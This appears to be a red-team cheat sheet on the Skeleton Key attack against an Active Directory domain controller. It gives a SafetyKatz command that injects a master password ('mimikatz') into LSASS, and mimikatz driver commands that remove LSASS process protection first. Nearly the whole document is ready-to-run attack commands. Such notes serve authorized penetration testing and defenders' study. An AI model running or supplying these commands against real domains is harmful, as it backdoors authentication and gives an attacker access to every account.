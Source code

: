 > ⚠️ **WARNING:**
> NEVER USE ON PRODUCTION!
> Resets on domain controller reboot.

# Methodology
>1. Have domain admin privileges.
>2. Patch the domain controller.
>3. Use the password `mimikatz` to access any machine with a valid username.

---

# Binaries
>**ℹ️ Info:**
>
> Remember to follow the [binaries methodology](../00%20-%20Miscellaneous/01-%20Methodology.md#Binaries).

## SafetyKatz
**Inject a skeleton key on a domain controller:**
```cmd
SafetyKatz.exe '"privilege::debug" "misc::skeleton"' -ComputerName us-dc
```

**If LSASS is running as a protected service, we can still use Skeleton Key but it needs the mimikatz driver ([mimidriv.sys](https://github.com/ParrotSec/mimikatz/blob/master/x64/mimidrv.sys)) on disk of the target DC:**
```cmd
privilege::debug
!+
!processprotect /process:lsass.exe /remove
misc::skeleton
!-
```